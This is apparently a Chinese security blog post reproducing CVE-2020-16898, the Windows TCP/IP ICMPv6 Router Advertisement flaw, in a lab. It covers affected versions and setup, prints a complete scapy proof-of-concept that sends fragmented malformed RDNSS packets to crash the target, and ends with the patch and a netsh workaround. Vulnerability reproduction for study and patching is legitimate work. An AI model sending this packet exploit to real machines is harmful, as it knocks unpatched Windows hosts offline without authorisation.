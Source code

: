 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/RTdkBbXWdzIBFpExZszQkg)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****DesM0nd****@Timeline Sec  
**

**本文字数：1404**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

TCP/IP 是指能够在多个不同网络间实现信息传输的协议簇。TCP/IP 协议不仅仅指的是 TCP 和 IP 两个协议，而是指一个由 FTP、SMTP、TCP、UDP、IP 等协议构成的协议簇，只是因为在 TCP/IP 协议中 TCP 协议和 IP 协议最具代表性，所以被称为 TCP/IP 协议。

**0x02 漏洞概述**  

  

**编号：CVE-2020-16898**  
远程攻击者通过构造特制的 ICMPv6 Router Advertisement（路由通告）数据包，并将其发送到远程 Windows 主机上，即可在目标主机上执行任意代码。要利用此漏洞，攻击者必须将特制的 ICMPv6 路由器广告数据包发送到远程 Windows 计算机。  

**触发条件**

*   仅当源地址是本地链接的 IPv6 时，才能利用此 bug。
    
*   整个有效负载必须是有效的 IPv6 数据包。如果您将标头弄得太多，触发触发错误之前，您的数据包将被拒绝
    
*   在验证数据包大小的过程中，可选标头中所有定义的 “长度” 必须与数据包大小匹配
    
*   此漏洞允许走私额外的 “标题”。此标头未经验证，并且包含“长度” 字段。触发错误后，无论如何都会根据数据包大小检查此字段。
    
*   需要绕过 Windows NDIS API 可以触发错误
    

**0x03 影响版本**  

  

Microsoft:window\_server\_2019:/1903/1909/2004

Microsoft:window\_server\_2019:\*

Microsoft:window\_server:1903/1909/2004  

**0x04 环境搭建**  

  

**攻击机：Ubuntu**

（python 版本：3.7，安装了 scapy 依赖）

```
pip install scapy
```

攻击机的 IPv6 为  

```
fe80::b1b3:3a5a:b16d:3385
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSyZZnRA8juZ4LnyeuakhbE1g4SOuV4ojyEjYTSPRsx8S97zOVyUibwKKicQejNGtHhOTyAicLAhRDw/640?wx_fmt=png)  

------------------------------------------------------------------------------------------------------------------------------------------------

**漏洞环境机：Windows 10 1903  
**

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSyZZnRA8juZ4Lnyeuakhbib1ahSdXuybdk6sX3rP9ZRRZE0hCb01E2Ttamt0ICpcpz93jTicDjP4g/640?wx_fmt=png)

漏洞环境机子需要开启 ipv6  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSyZZnRA8juZ4LnyeuakhbR8FeqOtr4FnTic4UStQOwsj8FicSU5icicGFibu8RV0iajiaib4YxiaJ7HWlJRg/640?wx_fmt=png)

使用 cmd 的 ipconfig 查看  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSyZZnRA8juZ4Lnyeuakhb2CKLgibAWLHDSAyCr6xVD85aibDK6G4EKOOMEN9VWa5Y3jnSlKdJkn2g/640?wx_fmt=png)

现在漏洞环境里 IPv6 地址为

```
fdb2:2c26:f4e4:0:2d3a:7f28:92af:3192
```

漏洞环境机选用的 ipv6 地址为 ipv6 地址或临时 ipv6 地址，攻击机选用的 ipv6 地址为本地链接 ipv6 地址，攻击机与受害机网络要通，可尝试 ping 一下  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSyZZnRA8juZ4Lnyeuakhbbkz1xC0pNyOT3JhiasNQVMmaOraT10yBacquiao8nqPSib2M0PSHseOMA/640?wx_fmt=png)

**0x05 漏洞复现**  

  

EXP 下载地址：

http://site.pi3.com.pl/exp/p\_CVE-2020-16898.py  

```
#!/usr/bin/env python3
#
# Proof-of-Concept / BSOD exploit for CVE-2020-16898 - Windows TCP/IP Remote Code Execution Vulnerability
#
# Author: Adam 'pi3' Zabrocki
# http://pi3.com.pl
#

from scapy.all import \*

v6\_dst = "fd12:db80:b052:0:7ca6:e06e:acc1:481b"
v6\_src = "fe80::24f5:a2ff:fe30:8890"

p\_test\_half = 'A'.encode()\*8 + b"\\x18\\x30" + b"\\xFF\\x18"
p\_test = p\_test\_half + 'A'.encode()\*4

c = ICMPv6NDOptEFA();

e = ICMPv6NDOptRDNSS()
e.len = 21
e.dns = \[
"AAAA:AAAA:AAAA:AAAA:FFFF:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA",
"AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA" \]

pkt = ICMPv6ND\_RA() / ICMPv6NDOptRDNSS(len=8) / \\
      Raw(load='A'.encode()\*16\*2 + p\_test\_half + b"\\x18\\xa0"\*6) / c / e / c / e / c / e / c / e / c / e / e / e / e / e / e / e

p\_test\_frag = IPv6(dst=v6\_dst, src=v6\_src, hlim=255)/ \\
              IPv6ExtHdrFragment()/pkt

l=fragment6(p\_test\_frag, 200)

for p in l:
    send(p)
```

修改 exp 中的 v6\_dst 以及 v6\_src

```
v6\_dst = "fdb2:2c26:f4e4:0:2d3a:7f28:92af:3192"
v6\_src = "fe80::b1b3:3a5a:b16d:3385"
```

```
sudo python3.7 p\_CVE-2020-16898.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSyZZnRA8juZ4LnyeuakhbN2Eaib2jNc52rlnwZ6rYJhd0PPIKH7cY1yF8vEn5reibibIWyWKrjK0tQ/640?wx_fmt=png)

**0x06 修复方式**  

  

1、升级更新。立即安装针对此漏洞的更新，下载最新的补丁包进行更新修复，如下链接：

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898
```

2、不能升级的话，先禁用基于 RA 的 DNS 配置 CMPv6 RDNSS

使用以下 PowerShell 命令禁用 ICMPv6 RDNSS，以防止攻击者利用此漏洞。此解决方法仅适用于 Windows 1709 及更高版本。

```
netsh int ipv6 set int \*INTERFACENUMBER\* rabaseddnsconfig=disable
```

注意：进行更改后，无需重新启动。  

```
参考链接：
```

https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

http://blog.pi3.com.pl/?p=780

https://blog.csdn.net/qq\_22807425/article/details/109448911

**作者博客：  
**

**https://www.yuque.com/desm0nd/osrdpc**

Timeline Sec 发起了一个读者讨论 1、复现讨论 2、期待文章 3、点赞支持

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行